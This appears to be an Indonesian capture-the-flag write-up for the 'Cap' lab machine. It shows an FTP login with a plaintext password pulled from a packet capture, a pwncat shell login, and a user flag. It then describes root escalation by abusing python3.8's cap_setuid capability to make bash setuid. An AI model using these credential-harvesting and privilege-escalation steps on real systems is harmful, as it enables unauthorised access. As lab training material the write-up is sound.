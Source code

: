 # Cap

Pada path /data/1 terdapat file pcap yang dapat di download. Ketika dibuka ternyata itu merupakan file pcap hasil enumerasi dengan gobuster kita. cek di /data/0 terdapat file pcap lain. dan setelah dilihat didalamnya terdapat user yang login ke vsFTPd dengan cred `nathan:Buck3tH4TF0RM3!`

```log
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```

Langsung saya connect dengan pwncat `pwncat nathan@10.10.10.245` dan berhasil mendapatkan shell untuk usernya. dari sini kita sudah mendapatkan flag user : 17e89e517ef51d3eb4dbb0423073e8a7

lanjut dengan linpeas ternyata terdapat yang aneh pada file python cap_setuid.

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Dari sini kita coba menjalankan python dan dengan root priviledge kita rubah /bin/bash menjadi setuid. Dari situ kita kembali ke shell biasa dan menjalankan command `/bin/bash -p` untuk mendapatkan priviledge escalation dan mendapatkan flag root